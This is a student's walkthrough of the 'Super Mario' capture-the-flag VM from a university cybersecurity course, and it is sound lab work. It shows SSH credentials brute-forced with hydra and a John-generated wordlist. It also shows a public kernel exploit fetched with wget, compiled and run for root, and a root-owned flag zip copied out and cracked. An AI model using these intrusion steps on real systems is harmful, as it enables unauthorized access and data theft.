 ## Sant Alice - Cybersecurity Course 2024 - UniTS

# Hack the Super Mario 


## Introduction
The Super Mario challenge is a penetration testing exercise designed to simulate a real-world hacking scenario. There are hidden flags embedded within a specially configured virtual machine (VM). To breach this VM, a Kali linux virtual machine is used as the attacking machine.
This report outlines the step-by-step process followed to breach the target VM, emphasizing the tools and techniques used.

## Technologies and tools used

1. **VirtualBox**   
    This demo uses two virtual machines installed on VirtualBox:
    * **attacking machine**: Kali Debian distribution
    * **target machine**: SuperMario Ubuntu distribution
    
    Both VM are configured to belong to the same network.  

2. **Technologies**   
    * **nmap**: network exploration tool for security auditing
    * **dirb**: web content scanner to find hidden directories and files
    * **john the ripper**: password cracking tool
    * **hydra**: fast and flexible login cracker
    * **ssh**: secure Shell for secure remote login
    * **gcc**: GNU Compiler Collection for compiling exploits
    * **wget**: network downloader for retrieving files from the web
    * **fcrackzip**: fast password cracker for zip files

3. **Configuration**  
    Before starting the local package database is refreshed and the latest versions of available packages are installed on Kali. 

    `apt-get update`  
    `apt-get upgrade`  

    Many of the necessary tools are already included in Kali distribution, but it was necessary to install apache2 (web server), ufw (for managing firewall rules) and fcrackzip.

    `apt-get install apache2`  
    `apt-get install ufw`  
    `ufw allow http`    
    `apt-get install fcrackzip`  


## Implementation

First, both virtual machines are started.

1. **Asset discovery**  
    To understand which network Kali belongs to, the `ifconfig` command is used, revealing that Kali has an IP address of '10.0.2.7'.
     

2. **Enumeration with nmap**   
    The first step in any penetration test is enumeration. Nmap is used to discover open ports and services on the target VM, so we scan our network.

    `nmap 10.0.2.0/24`   

    We discover open ports 22 (SSH) and 8180 (HTTP).

    <p align="center">
    <img src="images/1.png" >
    </p>

3. **Attempt to access the web service**  
    By navigating to http://10.0.2.5:8180 in the browser, the page displays "Welcome to nginx". This response indicates that the server is running the nginx web server software but has not been configured with any specific web content or applications to serve. Therefore, more information gathering is necessary to continue the penetration test.

    <p align="center">
    <img src="images/9.png" >
    </p>

4. **Directory bruteforce with dirb**  
    After identifying the HTTP service, a directory brute-force attack is conducted using dirb to find hidden files and directories.  

    `dirb http://10.0.2.5:8180 /usr/share/wordlists/dirb/big.txt`  

    We discover a file named 'vhosts'.

    <p align="center">
    <img src="images/2.png" >
    </p>

5. **Exploring virtual hosts**  
    We explore 'vhosts' by navigating to http://10.0.2.5:8180/vhosts. This reveals a server name (mario.supermariohost.local), which is then mapped in the local hosts file using the nano editor to facilitate further exploration.

    `cd /etc`  
    `sudo nano hosts`  
    `# Add line: "10.0.2.5 mario.supermariohost.local"`
  
    After adding the hostname, we verify the addition with `cat hosts`.     

    <p align="center">
    <img src="images/4.png" >
    </p>

     Visiting 'mario.supermariohost.local' in the browser displays a Mario browser game that is not functional.

6. **SSH enumeration and dictionary creation**  
    Since ports 22 and 8180 were open and we didn't get much information from the enumeration of port 8180, we now move towards port 22 for SSH enumeration. Using knowledge of famous Super Mario characters (mario, luigi, peach, toad, yoshi), a dictionary of potential usernames is created to retrieve credentials to log in to the SSH server (brute force). We then save the created text file as 'user'.
    
    <p align="center">
    <img src="images/5.png" >
    </p>
    
    John the ripper is then used to generate a password list.

    `john --wordlist:user --rules --stdout > pass`  

    The '--rules' option enables wordlist rules, and '--stdout' specifies that the generated passwords should be outputted with a fixed length. These passwords are then saved to a file named 'pass' on the desktop.


7. **Password cracking with hydra**  
    Using the username dictionary saved as 'user' and the password dictionary generated by john the ripper saved as 'pass', we needed to find the correct combination to log in via SSH. To accomplish this, we used Hydra to brute force the SSH login using the generated lists of usernames and passwords.

    `hydra -L user -P pass 10.0.2.5 ssh`  

    We found one valid credential 'luigi:luigi1'.

    <p align="center">
    <img src="images/6.png" >
    </p>

8. **SSH login and initial access**  
    With the cracked credentials, an SSH session is established to gain access to the VM, and we log in as user 'luigi'.  

    `ssh luigi@10.0.2.5`   
    `# Password: luigi1`

9. **Privilege escalation**  
    We discover that the target system is running Linux kernel version 3.13.0. There is a known exploit for the 3.13.0 overlayfs local root in Ubuntu. We download it inside Kali Linux from https://www.exploit-db.com/exploits/37292/, rename the file to 'mario.c', and move it to the '/var/www/html' directory. In this way we can download the file in the target machine through apache2.

    `sudo mv /home/kali/Downloads/mario.c /var/www/html`

    Inside the target system we download, compile, and execute the exploit to escalate privileges to root.

    `wget http://10.0.2.7/mario.c`   
    `gcc mario.c -o mario`   
    `./mario`

    We have obtained root privilege (we verify it with the `id` command), and inside the root directory, there is a zip file named 'flag.zip' that is the file we were searching for.
      
    `cd /root`

    We give full permissions (read, write, and execute) to everyone for 'flag.zip' to move it to the '/var/www/html' directory. As before this is done to download the file in Kali machine through nginx.

    `chmod 777 flag.zip`   
    `cp /root/flag.zip /var/www/html`

    <p align="center">
    <img src="images/7.png" >
    </p>

10. **Downloading and cracking the flag zip**   
    Finally from Kali we download the file 'flag.zip' from the URL http://10.0.2.5:8180/ and save it.

    `wget http://10.0.2.5:8180/flag.zip`
    
    We attempt to crack the password of the 'flag.zip' file using a list of common passwords provided in 'rockyou.txt'. The result shows that the password is 'ilovepeach'.
      
    `fcrackzip flag.zip -D -P /user/share/wordlist/rockyou.txt -u`

    We access the content of the zip file which include the 'flag.txt' file and then read the flag contained within.

    `unzip flag.zip`
    `cat flag.txt`

    <p align="center">
    <img src="images/8.png" >
    </p>

## Conclusions
The Super Mario cybersecurity challenge provided an exciting and educational experience, simulating real-world penetration testing scenarios. By using various tools and techniques such as nmap, dirb, john the ripper, hydra, wget, and local exploits, we were able to successfully breach the VM, escalate privileges, and retrieve one hidden flag. This exercise demonstrated the importance of thorough enumeration, effective use of password cracking tools, and leveraging known vulnerabilities for privilege escalation in cybersecurity practices.

## Future developments
There are multiple ways to hack this machine, and an interesting future goal would be to explore all possible methods to gain access. Additionally, the ultimate objective should be to retrieve all the passwords of all the users on this machine, further enhancing our understanding and skills in comprehensive penetration testing.

## References
https://www.hackingarticles.in/hack-super-mario-ctf-challenge/
